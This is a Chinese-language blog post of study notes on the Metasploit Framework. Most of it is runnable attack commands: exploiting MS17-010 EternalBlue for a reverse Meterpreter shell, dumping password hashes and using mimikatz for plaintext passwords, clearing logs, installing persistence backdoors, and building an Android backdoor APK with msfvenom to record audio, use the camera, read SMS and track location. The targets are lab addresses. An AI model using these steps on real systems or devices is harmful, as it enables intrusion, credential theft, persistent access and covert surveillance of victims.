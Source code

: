 ```yaml
---
title: Metasploit学习-1
date: 2018-03-14 21:17:37
categories: 安全
tags: [Metasploit,工具]

---
```




## Metasploit 介绍

Metasploit是一个漏洞利用框架，全称The Metasploit Framework，简称MSF。 
msf包括各种模块，插件，和第三方工具。如msfvenom，db_nmap，db_sqlmap等。其中模块分为辅助模块（Aux）、渗透攻击模块（Exploits）、后渗透攻击模块（Post）、攻击载荷模块（Payloads）、空指令模块（Nops）和编码器模块（Encoders)等。
这里主要记录下关于msf的使用。
<!--more-->

## MSF常用命令

首先输入`msfdb init` 初始化数据库，然后输入`msfconsole`进入msf交互式命令行进行操作。
msf的常用命令如下：

```
help：查看帮助信息
show exploits：查看所有 exploit
show payloads：查看所有 payload
show auxiliary：查看所有 auxiliary
banner：查看版本信息 
search：搜索相关模块
use：使用模块
show options：查看模块参数
set：设置模块参数信息
info：查看模块更多信息
exploit：执行攻击 -j 后台执行 -z 成功后不立即打开session
makerc：将历史命令输出到文件中
back：use命令后退出模块
```





## MSF渗透Window

关于信息的收集和漏洞发现可以使用namp和nessus等工具。当发现系统漏洞后，就可以使用msf进行攻击了。
一般的流程为先确定攻击模块，设置目标参数，再设置攻击载荷，最后执行exploit。这里以ms17-010为例。
先搜索漏洞利用模块

```
msf > search ms17-010
Matching Modules
================
   Name                                      Disclosure Date  Rank     Description
   ----                                      ---------------  ----     -----------
   auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   auxiliary/scanner/smb/smb_ms17_010                         normal   MS17-010 SMB RCE Detection
   exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
```

搜索到有漏洞扫描模块和漏洞利用模块，这里使用auxiliary/scanner/smb/smb_ms17_010作为漏洞扫描模块，exploit/windows/smb/ms17_010_eternalblue作为漏洞攻击模块。
先探测下漏洞是否存在

```bash
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS 192.168.222.128
set RPORT 445
exploit
```
如果显示如下结果则表明漏洞存在，可以利用

```
[+] 192.168.222.128:445   - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```


接下来使用漏洞攻击模块

```
use exploit/windows/smb/ms17_010_eternalblue
set RHOST 192.168.222.128
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.222.1
exploit
```

执行成功后会返回一个回话，可以进行后续的各种操作。
![Meterpreter](http://7xo8y2.com1.z0.glb.clouddn.com/18-3-10/29467741.jpg)

也可以将以上要执行的命令写入脚本，然后使用`msfconsole -r xxx.rc`或者在msfconsole中使用`resource xxx.rc`来快速执行命令。

## Meterpreter

当对目标攻击成功时，会反弹回来一个会话，此时可以操纵目标电脑来进行更深入的攻击。

### 常用命令

```
sysinfo：查看系统信息
ps：列出进程
migrate pid：进程转移,将连接进程转移到稳定的进程上
getsystem：获取system权限
shell：运行shell
screenhost：截屏
cat：查看某文件内容
gwtwd：回获取当前工作目录
upload file：上传文件，需要注意windows路径
download file：下载文件
portfwd：端口转发工具
keyscan_start：开始键盘记录
keyscan_dump：打印键盘记录
keyscan_stop：停止键盘记
eexecute：执行文件
hashdump：列出用户hash
run vnc：可以看到对方桌面
background：将当前session转入后台
sessions：列出所有会话
sessions -i 会话id：进入某个session中
clearev：清除日志记录
```

### Windows获取用户密码

1. 获取hash，然后使用一些在线破解网站进行破解
```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
hp:1000:aad3b435b51404eeaad3b435b51404ee:3008c87294511142799dca1191e69a0f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```
   也可以使用smart_hashdump，命令`run post/windows/gather/smart_hashdump `。
   ![hash破解](http://7xo8y2.com1.z0.glb.clouddn.com/18-3-10/19783055.jpg)

2. 使用mimikatz得到明文密码。
   ```
   load mimikatz: 加载mimikatz
   kerberos：获取明文密码，也可以使用命令wdigest
   ```
   ![明文密码](http://7xo8y2.com1.z0.glb.clouddn.com/18-3-10/48844437.jpg)

### 端口转发

```
portfwd add -l 8080 -r 192.168.222.128 -p 80 
将目标机的80端口映射到本地80端口。
meterpreter > portfwd -h
Usage: portfwd [-h] [add | delete | list | flush] [args]
    -L <opt>  本地主机ip
    -R        反向端口转发。
    -l <opt>  本地监听端口
    -p <opt>  远程目标机器端口
    -r <opt>  远程目标机器ip
```



### 后门维持

1. 使用persistence 命令

   ```
   run persistence -A -U -i 5 -p rport-r rhost 
   -S可创建服务 
   -U 会在HKCU添加启动项，-X 会在HKLM添加启动项 
   -i：设置反向连接间隔时间，单位为秒。当设置该参数后，目标机器会每隔设置的时间回连一次所设置的ip； 
   -p：设置监听端口。 
   -r：设置监听ip。 
   ```

2. 使用metsvc 

   ```
   run metsvc -A 
   使用此命令会自动安装metsrv服务到目标机上。
   使用payload为windows/metsvc_bind_tcp进行连接。 
   ```

   ​

## MSF攻击Android

msf可以生成android的后门程序来攻击安卓手机，具体使用如下。
首先生成后门程序。

```
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.0.10 LPORT=8082 > hack.apk
```

然后安装到测试手机上。之后使用监听脚本，当启动后门程序时就会反弹回来shell。

```
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST 192.168.0.10
set LPORT 8082
exploit

```

meterpreter 会话中安卓常用的命令如下：

```
help：查看所有命令
record_mic：记录来自默认麦克风的音频X秒
webcam_chat：开始视频聊天
webcam_list：列出设备上的摄像头
webcam_snap：从指定的摄像头拍摄照片
webcam_stream：监控摄像头
activity_start：启动其它应用
check_root：检查设备是否root
dump_calllog：获取通话记录
dump_contacts：获取联系人列表
dump_sms：获取短信
geolocate：使用geolocation获取当前地理位置
hide_app_icon：隐藏应用图标
send_sms：使用目标设备发送短信
wlan_geolocate：使用WLAN信息获取当前地理位置
```



### 参考

[Metasploit学习笔记](https://www.cnblogs.com/zlslch/p/6875397.html)

[Meterpreter命令速查表](http://www.cnnetsec.com/1368.html)

[安全科普：详解Windows Hash与破解](http://www.freebuf.com/articles/database/70395.html)
